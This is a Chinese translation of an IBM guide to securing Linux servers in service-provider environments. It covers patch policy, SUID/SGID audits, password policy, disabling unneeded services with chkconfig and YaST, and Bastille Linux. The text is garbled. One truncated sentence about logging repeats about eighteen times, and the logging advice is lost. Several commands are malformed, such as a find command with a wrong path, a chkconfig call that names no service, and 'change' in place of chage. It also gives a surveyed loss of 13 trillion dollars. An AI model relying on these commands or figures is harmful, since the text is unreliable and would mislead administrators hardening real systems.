





# 服务提供商 Linux 服务器安全指南


Bill Hilf
高级咨询 I/T 师
IBM 公司
billhilf@us.ibm.com


## 服务提供商（或 xSP）领域中的 Linux 概览

“xSP”术语简单来说是服务提供（Service Provider）缩写的合并。最初，只有 ISP（互联网服务提供商）和 ASP（应用服务提供商）处于这一领域，但随着互联网和电子商务的成熟，新的服务提供商模型随之出现。基础设施“SP”，例如托管服务提供商（MSP），它们提供全托管服务（网络、存储、服务器等）；以及业务服务提供商（BSP），它们通过应用程序访问或聚合（ASP）或外包流程为客户创造价值。

但我们不要迷失在缩写中，而应关注服务提供商之间的共同元素，以及这些元素在 Linux 下如何需要保护。服务提供商之间的一个明显共同点是提供网络支持客户的能力。无论是拨号服务、Web 启用应用程序、关系型数据库、存储解决方案还是电子邮件账户，这些服务都具有多种共同特征。

基础设施服务的共享是构建服务提供商业务规模效益的主要组件。在硬件、网络、服务器或应用层，这些组件的共享程度很高——但几乎没有任何场景是服务提供商架构的某部分没有被多个客户使用的。这是理解服务提供商环境中安全的关键因素。由于这些服务本质上是对公众开放的，因此必须被视为不可信。虽然服务提供商可能并不认为其客户是“公众”或不可信任的，但只要该服务可以通过互联网访问（无论用户是否需要付费），它就可能被互联网上的任何机器所利用。

基于互联网的服务中，操作系统安全比以往任何时候都重要。除了 9/11 悲剧后对安全意识的明显提高外，许多财务需求也将安全提升到了关键的 IT 问题。近期，普华道更新了其安全基准服务，纳入了《信息周》2001 年全球信息安全调查的新数据。这项由普华道开展调查显示，这些全球公司在过去一年因安全漏洞损失了超过 13 万亿美元的收入。在全球范围内，计算机病毒的传播是万亿损失的主要原因之一，60% 的受访者表示他们因计算机病毒和拒绝服务攻击而损失了生产力。报告显示最大的安全漏洞是针对操作系统的。

> 普华道的安全基准服务通过对比全球 50 个国家技术专业人员的 4500 份调查响应数据库，来评估组织的安全计划。


互联网安全漏洞利用的快速演变从 CERT/CC 的统计中可以清晰看出，CERT/CC 是报告计算机安全事件和漏洞的权威机构。仅 2001 年的前三个季度，安全事件的数量就达到了 34,754 起。2000 年的安全事件数量为 21,756 起。1989-1999 年间报告的事件总数为 25,949 起。令人惊讶的是，仅在2001 年的九个月里，CERT 报告的安全事件就多于 1989 年到1999 年十年间的总和。通过互联网传播的攻击、病毒、蠕虫和木马之灾害令人深感恐惧……³

服务提供商越来越多地利用 Linux 作为一种安全、可靠、高性能且成本效益的服务器操作系统。对于服务提供商来说，选择 Linux 是非常有意义的——Linux 操作系统本身就是为了互联网而设计和开发的。Linus Torvalds 将 Linux 的很大成功归功于 Linux 的存在形式，这使得成百甚至数千名专业人士能够在去中心化的开发模式下，协作出一个完整的操作系统⁴。通过互联网开发的操作系统对于通过互联网构建和运营业务的服务提供商来说是理想的匹配。Linux 操作操作系统的总拥有成本、灵活性和卓越的记录驱动了这种使用，而且服务客户比以往任何时候都需要理解如何确保他们的 Linux 系统安全。

## 意图与背景

本文的意图是清晰地解释保护 Linux 服务器所需的步骤，以及针对服务提供商环境中常用的 Linux 服务器实现的特定步骤。阐述 Linux 安全的每一个方面、用于防御所有攻击的工具或方法已超出了本文的范围。文中提到的漏洞和建议的安全解决方案基于专业经验，旨在为当今 Linux 服务器中发现许多常见安全威胁提供示例和最佳实践。

该领域的许多示例和实践源于我设计、开发和运营 Web 系统的经验。作为 IBM 新兴与竞争市场组织的一架构师，我参与了各种服务提供商和新兴业务。我的主要专业领域是应用于这些市场的 Linux 基础设施。在加入 IBM 之前，我担任 EToys 的工程部门主管，那是一个受欢迎的儿童产品电子商务网站。由于 EToys.com 网站的暴露，我们每天（有时每小时）都会收到端口扫描、拒绝服务攻击和入侵尝试。为了更好的（学习）或更糟的（睡眠），我和我的团队是凌晨 2 点响应这些威胁的人。在

²http://www.cert.org/stats.html
³根据 CSI 2001 计算机犯罪与安全调查，将互联网连接列为频繁攻击点的比例已从 2000 年的 59% 上升到 2001 年的 70%：http://www.gocsi.com/prelu/000321.html。
http://resources.cisco.com/partner/tree.ta?asset_id=75234

在 EToys 之前，我是 CNET Networks 的工程师，该网络由多个网站组成，如 Cnet.com、News.com、Download.com、Shareware.com、Computers.com 等。由于这些网站各提供不同的服务（如内容分发、广告、软件存档、基于 Web 的应用程序以及其他受托管服务），CNET 暴露在各种探测和入侵攻击之中。通过这些经历，我在 Linux 和 Unix 系统的真实攻击中“磨炼了实战”。希望本文能提供一些实用的建议，帮助你或你的客户避免在凌晨 2 点接到传真或电话。

## SANS/FBI 前 20 强

作为一个框架，本文将使用 SANS/FBI 国家基础设施保护中心（NIPC）最近发布的关于顶要安全漏洞的报告。许多企业将此列表作为保护哪些漏洞以及每种安全威胁相对重要性的指南。该列表已被证明具有价值，因为它由受人尊敬的安全组织编制，而且，当今许多通过互联网对计算机系统进行的成功攻击都可以追溯到对安全漏洞的利用。该列表由三部分组成：通用漏洞、Windows 漏洞和 Unix 漏洞。为了保护服务提供商环境 Linux 服务器，本文将利用通用和 Unix 漏洞列表中的问题，不包含十大 Windows 漏洞。

顶级通用漏洞：

- 1. 操作系统和应用程序的默认安装
- 2. 无密码或弱密码的账户
- 3. 不存在或不完整的备份
- 4. 大量开放端口
- 5. 未对正确的进出地址进行数据包过滤
- 6. 不存在或不完整的日志
- 7. 脆弱的 CGI 程序

顶级 UNIX 漏洞：

- 1. RPC 服务中的缓冲区溢出
- 2. Sendmail 漏洞
- 3. BIND 弱点
- 4. R 命令
- 5. LPD（远程打印协议守护进程）
- 6. sadmind 和 mount
- 7. 默认 SNMP 字符串

我建议访问 SANS/FBI 网站，因为它提供了每种漏洞的详细描述以及通用安全解决方案和资源。本文将处理其中的每一个问题，因为它们直接关系到服务提供商环境中 Linux 服务器的安全。

## 安全哲学

从所有意义上说，安全是一种风险管理的实践。你的系统安全程度和强度直接取决于你管理它的投入强度。要明确地认为任何操作系统都是完全安全的是不现实的，也是可能的。安全性在易用性与确保系统安全的业务需求或方法论之间存在一个连续的滑动。就像所有现实世界中的技术设计一样，它是一种设定并满足要求的实践，并考虑这些需求所带来的局限。保护你的 Linux 服务器基于对这些需求、最佳实践和经验的理解。

本文将介绍用于 Linux 服务器环境安全管理的的一些最佳实践、经验和工具。你的业务愿意接受的安全需求和局限性将不会讨论，因为这些在不同企业之间显然存在差异。然而，本文将尝试介绍常见的最佳实践和经验。

最后，在不太偏离哲学领域的情况下，简要讨论一个重要概念或“心态”——复杂性理论是有用的。计算机系统是各种子系统和组件的集合——无论是硬件、软件还是跨越及组件之间的通信。在还原论范式中分析系统是非常常见的，换句话说，就是把事物分解为单个组件以理解它们的本质。虽然这通常是诊断安全问题的关键科学方法，但理解系统中组件的相互作用至关重要。复杂性关于这些组件如何相互作用——这与仅仅的复杂（由许多部分组成）不同。在保护和设计 Linux 服务器时，理解系统的相互作用是重要的，因为这些相互作用会塑造显示潜在安全问题的模式。

## 保护 Linux 服务器

## 通用实践

许多适用于所有 Linux 安装的安全最佳实践——特别是对于公开的系统，例如服务器。以下列出了任何 Linux 服务器安全策略中需要考虑的一些关键最佳实践。这里需要一个重要的免责声明——没有 100% 的安全验证，这些建议都有被利用的可能性。例如，你可能会从应用程序供应商的网站接收到有效的数字签名，但无法保证他们的网站没有被破解，并且入侵者修改了软件和签名使其看起来有效。此外，如果你的本地系统被入侵，入侵者


# IBM

他们可能修改了你服务器上的系统工具。例如，入侵者可能修改了“pgp”程序，使其永远不会通过加密检查——导致所有下载的文件及其签名看起来都是真实无误的。这里的教训是什么？正如《X档案异档案》中所说的，“不要相信任何人（Trust No One）”，假设没有任何单一站点或来源是安全的，并对放置在你服务器上的所有内容进行双重检查。

## 开发补丁和升级策略

大量的 Linux 安全漏洞基于常用开源软件的漏洞，例如 BIND、Sendmail、NFS 以及“r”-程序（exec, rsh, rpc）。开源软件的主要优势之一是识别和修复漏洞的速度。因此，制定一个针对关键软件组件的升级策略至关重要。该策略应包含以下流程：

- 分配并订阅安全相关的列表。这包括供应商的安全更新邮件列表（Red Hat, SuSE, Caldera, TurboLinux 等），以及来自你当地事件响应团队的安全公告邮件列表。这些邮件列表通常量较小，为系统和安全管理员提供极具价值的信息。邮件列表信息将在本月底的“资源”部分提供。
- 从你的供应商处获取最新的补丁列表，并获取未包含在系统中的推荐安全补丁。某些 Linux 发行版提供了工具来自动检查本地系统软件包的最新推荐补丁（如 SuSE YaST 和 RedHat Up2date）。某些补丁可能会重新启用配置，因此在安装任何新软件包或补丁后，检查此清单非常重要。操作系统供应商未提供的应用程序补丁应直接从软件供应商的网站获取。
- 确保软件补丁和软件包仅从可靠来源下载（即从供应商或受信任的镜像站点下载）。
- 验证任何已下载文件的加密签名以确保其完整性。永远不要使用签名与其内容不符的文件。PGP (http://www.pgp.org) 和 GnuPG (http://www.gnupg.org) 可用于加密和认证，许多开源软件开发者常用它们开发数字签名。学习如何使用 GnuPG 验证数字签名：http://www.dewinter.com/gnupg_howto/english/
- 可能的情况下，使用 `md5` 或 `md5sum` 等工具验证任何下载补丁的 md5 校验和。`md5sum` 是所有主要发行版的标准工具，且使用非常简单——运行“md5sum -c md5-file”将检查 md5 文件的完整性。例如，Red Hat 在其发行版 ISO 镜像相同的目录下包含一个“MD5”文件。该文件包含该目录下每个文件的 MD5 条目，可用于验证真实性（例如，ntp://ftp.redhat.com/pub/redhat/redhat-7.2-en/iso/i386）。⁵
- 使用 RPM 作为你的包管理系统时，使用“K-”或“—checksig”选项。这些 `rpm` 命令选项用于验证软件包的加密签名。

## 了解哪些程序是 Set-UID 和 Set-GID

许多漏洞发生在设置为 Set-UID 或 Set-GID root 的程序中。Set-UID/GID（即 Set UserID 和 Set GroupID）是设置在程序上的位，允许程序作为特权用户执行和运行。对于设置为 root 的 Set-UID/GID 程序，这可能是一个重大的安全问题，例如缓冲区溢出或软件漏洞可能会导致用户身份和权限的变化——可能将用户提升到导致 root 被攻破。由于这种潜在的安全漏洞，了解哪些程序设置为 Set-UID/GID root，并确定它们是否为 Linux 服务器分配的任务需要此功能，是非常重要的。

了解所有具有 set-UID/GID 的程序很重要，并应将其记录在你的安全策略中。然而，你可能想快速扫描 set-UID root 文件和程序。例如，这里有一个简单的命令，用于搜索“root”下的所有文件（“-perm”或权限位，八进制值为 4000 的位即为 set-UID 位）：

```
find /user root -perm -4000 -ls
```

另一个实用操作是查找所有 UID 或 GID 分别不在 /etc/passwd 或 /etc/group 中的文件。尽管这可能是由于某人提取 tar 归档包而产生的数据，但也可能源于提取 rootkit 或其他恶意压缩包。Rootkits 将在下方的“你的网络”部分进行讨论。

```
find / -fstype proc ' -nouser -nogroup ' -ls
```

要从程序中移除 set-UID/GID 位，请使用 `chmod ug-s program`。你可能还会考虑让关键系统程序（如 /bin,/sbin,/usr/bin,/lib 中的程序）变为不可变或不可更改的。通常这些程序不会更改，如果它们需要补丁或删除，`chattr` 命令就是为此目的设计的。使用 `chattr +i program` 修改的程序无法被删除或重命名，无法为此文件创建链接，也无法从中写入数据。只有 root 用户可以设置或清除此属性。作为一个原则，如果你不明确为什么程序设置了 set-UID/GID root，你应该立即学习其原因，如果对服务器功能没有必要，则将其禁用。

> ⁵ MD5 是由 Ronald Rivest 开发用于数字签名的算法（http://theory.cs.umass.edu/~rivest/Rivest-MD5.txt）。MD5 是一种单向哈希函数；换句话说，该算法的可变长度输入（通常称为“消息”或“预象”）将其转换为 128 位的哈希值（这个固定字符串称为消息摘要）。关于单向哈希函数以及所有密码学内容的优秀资源，请参见 Bruce Schneier 的《应用密码学》（详情见附录）。

## 开发密码策略

密码仍然是一个主要的安全漏洞，并且经常是导致系统被攻破的直接手段（在 SANS/FBI 顶级通用漏洞列表中排名靠）。为了在 Linux 服务器上维护安全密码，请制定一个包含以下流程的策略：

- 限制特权账户的使用，特别是超级用户。root 权限应仅限于任务人员。原则是——只给那些需要且知道如何从超级用户可能犯的错误中恢复的人赋予权限。Linux 上控制权限的有用工具是 `sudo` 工具。sudo（超级用户）允许系统管理员赋予某些用户（或用户组）以 root 或其他身份运行某些（所有）命令的能力，同时记录命令和参数。服务提供商可以通过 root sudo 启动 Apache 而向客户提供任何 root 权限。更多信息请参见：http://www.courtenas.com/sudo/intro.html
- 使用 shadow 密码。shadow 密码是 /etc/passwd 的加密版本，位于 /etc/shadow 中。大多数 Linux 发行版默认实现 shadow 密码，因为这是一种安全措施。然而，你应该检查你维护和安装的每个 Linux 服务器，确保它使用的是 shadow 密码。`pwck` 命令将验证 /etc/shadow 相对于 /etc/passwd 的完整性。
- 开发密码创建指南。包括：
- 永远不要告诉任何人密码或写下你的密码（例如便利贴）
- 推荐的密码创建提示（长度、标点符号、数字等）。破解者使用多个程序来猜测密码。其中许多程序在多语言字典上运行，尝试猜测单词并进行多种组合，例如：
- 任何倒过来写的单词
- 末尾带有标点符号的任何单词
- 开头带有标点符号的任何单词
- 第三个字符位置带有标点符号的任何单词
- 大写的单词
- 两个单词组合，中间加一个数字

显而易见的教训是不要使用单词作为密码，而是建议使用喜欢的短语或引言作为助记法，然后添加或更改适当的大小写、标点符号和其他字符处理。例如，“Chance favors only the prepared mind”可以改为“Cf0tpPm”。


-   验证系统密码。定期使用如“Crack”和“John Ripper”等工具（详见本文末尾的“资源”部分）尝试破解您的系统密码。入侵者会使用这些工具，因此最好在他们之前先发现测试结果。一种良好的做法是在每次密码到期/重新创建的计划窗口后，将此项列入安全检查清单中。
-   创建密码久期策略。根据业务需求，创建一个在特定频率下使密码过期的策略。这可以通过 `change` 命令进行控制。它可以指定每个用户密码有效的最小/最大天数，以及在指定时间内未活动后使密码过期的功能。这适用于所有密码，包括超级用户密码！

许多发行版都支持简化密码配置过程的工具，如下所示的 SuSE 的 YaST2。



# IBM

## 如果你没有使用某个服务，请将其关闭

通常，Linux 服务器部署用于特定的任务操作——提供 Web 页面、运行 Java 应用程序服务器、提供 DNS、验证 LDAP 请求、防火墙和网关。然而，大多数 Linux 发行版包含了能够启用广泛功能的特性和服务——这些通常远比你在典型的 Linux 服务器部署中需要和想要的要。许多最新的 Linux 发行版在你尝试安装具有安全漏洞风险（如 telnet）的服务时会发出警告。我强烈建议你关注这些警告，并投入大量精力验证正在运行的服务对于你正在配置的 Linux 服务器的功能是否至关重要。

此类漏洞利用出现在 SANS/FBI 列表中，其中包括排名第一的顶级通用漏洞：“操作系统和应用程序的默认安装”。确保此安全性的第一步是禁用你不需要的内容。按需，你应该验证需要哪些特定的服务，并禁用所有不需要的服务。以下是 own使用 Red Hat 的 `chkconfig` 和 SuSE 的 YaST2 处理服务的方法。

在 Red Hat 中，`chkconfig` 工具可以查看哪些服务在哪些运行级别已启用：

```
[root@fangom sambal# chkconfig --list
altd 0:off 1:off 2:off 3:off 4:off 5:off 6:off
rrwd 0:off 1:off 2:off 3:off 4:off 5:off 6:off
keytable 0:off 1:on 2:off 3:on 4:on 5:off 6:off
nscd 0:off 1:off 2:off 3:on 4:on 5:off 6:off
syslog 0:off 1:off 2:off 3:on 4:on 5:off 6:off
gpm 0:off 1:off 2:off 3:on 4:on 5:off 6:off
kudzu 0:off 1:off 2:off 3:on 4:off 5:off 6:off
kcdrocrate 0:off 1:off 2:off 3:on 4:off 5:off 6:off
lpd 0:off 1:off 2:off 3:on 4:on 5:off 6:off
[...]
```

让我们在运行级别 3（多用户和网络）⁶ 下运行 Linux Web 服务器。从上面的代码段中我们可以看到在该级别运行着多种服务。由于此服务器仅作为 Web 服务器，因此没有必要在该系统上运行 `lpd` 打印机守护进程，所以我们应该通过 chkconfig 禁用它。以下行禁用了运行级别 3 的 `lpd` 服务：

```
[root@fangom treebeard# chkconfig --level 3 off
```

`chkconfig` 基本在 `/etc/rc[0-6].d` 目录中创建符号链接。`chkconfig` 不删除实际程序或服务，仅当该服务在 Linux 启动过程中被启用时生效。`chkconfig` 会在服务器启动时发生。使用 `--add` 或 `--del` 从 chkconfig 中添加或删除服务（详情请 `man chkconfig`）。Red Hat 包含一个名为“service”的工具，允许类似的功能，但它是通过基于 GTK 的图形界面登录。Red Hat 还提供了一个简单的命令行接口“ntsys”，用于启用/禁用启动时启动的服务。`chconfig` 和 `ntsys` 可以在系统未安装 X Server 的情况下工作，这在许多 Linux 服务器上是典型的。

对于 SuSE，你可以使用 YaSt2 从命令行或 GUI 禁用/启用服务：



| Status | Service | Type | Proto | Flags | User | Ser |
|---|---|---|---|---|---|---|
| Active | talk | stream | tcp | nowait | root | /usr |
| | login | stream | tcp | nowait | root | /usr |
| # | exec | stream | tcp | nowait | root | /usr |
| Active | ntkld | stream | tcp | nowait | root | /usr |
| | pop2 | stream | tcp | nowait | root | /usr |
| | pop3 | stream | tcp | nowait | root | /usr |
| | imap | stream | tcp | nowait | root | /usr |
| | consat | dgram | udp | nowait | root | /usr |
| | tftp | stream | tcp | nowait | uucp | /usr |
| | dtgp | dgram | udp | nowait | root | /usr |
| | bootsps | dgram | udp | nowait | root | /usr |
| Active | finger | stream | tcp | nowait | nobody | /usr |
| | sustat | stream | tcp | nowait | | | |

## 智能记录日志

日志是一个经常过度使用但利用不足的资源。许多应用程序可以记录到各种系统和日志文件中，但这些日志通常未被分析或。

>⁶关于运行级别的解释，请参阅：http://www.linuxworld.com/linuxworld/lw-2001-01/lw-01-geek_1.html


日志是一个经常过度使用但利用不足的资源。许多应用程序可以记录到各种系统和日志文件中，但这些日志通常未被分析或。

日志是一个经常过度使用但利用不足的资源。许多应用程序可以记录到各种系统和日志文件中，但这些日志通常未被分析或。

日志是一个经常过度使用但利用不足的资源。许多应用程序可以记录到各种系统和日志文件中，但这些日志通常未被分析或。

日志是一个经常过度使用但利用不足的资源。许多应用程序可以记录到各种系统和日志文件中，但这些日志通常未被分析或。

日志是一个经常过度使用但利用不足的资源。许多应用程序可以记录到各种系统和日志文件中，但这些日志通常未被分析或。

日志是一个经常过度使用但利用不足的资源。许多应用程序可以记录到各种系统和日志文件中，但这些日志通常未被分析或。

日志是一个经常过度使用但利用不足的资源。许多应用程序可以记录到各种系统和日志文件中，但这些日志通常未被分析或。

日志是一个经常过度使用但利用不足的资源。许多应用程序可以记录到各种系统和日志文件中，但这些日志通常未被分析或。

日志是一个经常过度使用但利用不足的资源。许多应用程序可以记录到各种系统和日志文件中，但这些日志通常未被分析或。

日志是一个经常过度使用但利用不足的资源。许多应用程序可以记录到各种系统和日志文件中，但这些日志通常未被分析或。

日志是一个经常过度使用但利用不足的资源。许多应用程序可以记录到各种系统和日志文件中，但这些日志通常未被分析或。

日志是一个经常过度使用但利用不足的资源。许多应用程序可以记录到各种系统和日志文件中，但这些日志通常未被分析或。

日志是一个经常过度使用但利用不足的资源。许多应用程序可以记录到各种系统和日志文件中，但这些日志通常未被分析或。

日志是一个经常过度使用但利用不足的资源。许多应用程序可以记录到各种系统和日志文件中，但这些日志通常未被分析或。

日志是一个经常过度使用但利用不足的资源。许多应用程序可以记录到各种系统和日志文件中，但这些日志通常未被分析或。

日志是一个经常过度使用但利用不足的资源。许多应用程序可以记录到各种系统和日志文件中，但这些日志通常未被分析或。

日志是一个经常过度使用但利用不足的资源。许多应用程序可以记录到各种系统和日志文件中，但这些日志通常未被分析或。

日志是一个经常过度使用但利用不足的资源。许多应用程序可以记录到各种系统和日志文件中，但这些日志通常未被分析或。


在传输到远程服务器之前对每个日志文件进行摘要（digests），并提供了一种简单的方法，在一个位置比较跨服务器的文件，从而提供所有日志活动的全局视角。为了进一步进一步的安全，这个“远程服务器”可以是一个只写介质，例如从受保护的 Linux 服务器挂载的 CD-R。当然，在这一领域上的创造力会随着你偏执程度的增加而线性增长.^7

## 尽可能使用工具

由于安全是一个复杂的课题，建议尽可能寻求帮助。每个 Linux 发行版都包含各种工具，用于帮助配置网络服务、用户/组配置；开源社区中也有成千上万的可用工具可以提供帮助。协助“加固”Linux 系统的最广名的工具之一是 Bastille Linux。

Bastille Linux ([http://www.bastille-linux.org/])

Bastille Hard’s Hardening Systems 用于“加固”或“收紧”Linux操作系统，目前支持红帽（Red Hat）和 Mandela 发行版。Bastille Linux 参考了 Linux 安全的各种权威来源。初始开发整合了作者 Jay Beal 的《Securing Solaris and Linux》主要要点、SANS 的《Securing Linux by Step》、Kurt Sefried 的《Linux Administrator's Security Guide》以及许多其他来源。IBM Linux 技术中心最近为 Bastille Linux 提供了一个补丁，由 Niki Rahhemi 创建以支持 Suse E72 和 Turbolino 7.0 ([http://software.ibm.com/developerworks/opensource/patches/bastille/suse72_tl70-2.patch.gz](http://software.ibm.com/developerworks/opensource/patches/bastille/suse72_tl70-2.patch.gz))。这两个补丁已提交给 Bastille Linux 团队和 Bastille 邮件列表。

Bastille Linux 的设计目的是让管理员了解每个脚本任务中涉及的安全问题，同时保护机器和管理员。每个步骤都是可选的，并包含对涉及的安全问题的描述。以下是运行 InteractiveBastille 的两个示例：

<step 4>

Q: 你是否想禁用 r-tools 的 SUID 状态？[Y]
BSD r-tools 依赖于基于 IP 的验证，这意味着它可以允许（例如）在 192.168.1.1 上拥有 root 权限的人在 192.168.1.2 上也拥有 root 权限。管理员和其他用户发现这很有用，因为它允许从一个连接到另一个，而无需重新尝试密码。

然而，基于 IP 的验证的问题在于，入侵者可以构造“伪造的”或虚假的数据包，声称来自受信任的机器。由于 r-tools 完全依赖 IP 地址进行验证，伪造的数据包将被接受为真实。

> ^7 了解某些巧妙的技巧，请参阅 Lane Spitzer 关于构建蜜罐网的白皮书：[http://www.rootprompt.org/article.php3?article=210](http://www.rootprompt.org/article.php3?article=210)。该论文讨论了诸如记录到非 IP 可寻的远程服务器、使用提交的消息收集日志以及用于远程寻址的替代协议等问题。


# IBM

你是否想禁用 r-tools 的 SUID 状态？[Y]

- X 是
- 否 x
< 上一步 > < 下一步 > < 减少解释 >

<step 9>

Q: 你是否想强制密码年龄？[Y]
红帽和 Linux-Mandrake 的默认行为（我们在这里将其更改）是在密码在 99,999 天内未更改时禁用账户。这个间隔太长了，没有实用价值。我们可以将默认设置为 180 天。在 180 天结束之前的某个点，系统将要求用户更改其密码。在 180 天结束，如果密码未更改，账户将被临时禁用。
我们将在 /etc/login.defs 中进行此更改。

你是否想强制密码年龄？[Y]

- X 是 x
- 否 x
< 上一步 > < 下一步 > < 减少解释 >

上述内容取自基于 Curses 的界面，它运行在没有安装 X server 的 Linux 服务器上。这非常有用，因为窗口化系统（如 X）通常没有安装在 Linux 上的上。Bastille Linux 还支持基于 Tk 的界面以提供更丰富的 GUI（如果用户需要的话）。此外，上面的示例展示了 Bastille Linux 如何教育和描述每个安全步骤——它还默认采用推荐的最佳实践（例如禁用 r-tools 上的 SUID，并实施 180 天密码年龄），尽管你可以根据喜好覆盖或直接跳过这些。

YaST
SUSE Linux 提供了类似的基于工具的系统加固方法，通过 YaST 和 YaST2。我们已经看到通过 YaST2 界面（在 xterm 中）配置网络服务和服务一些常见的安全设置。

# IBM



## 应用安全至关重要

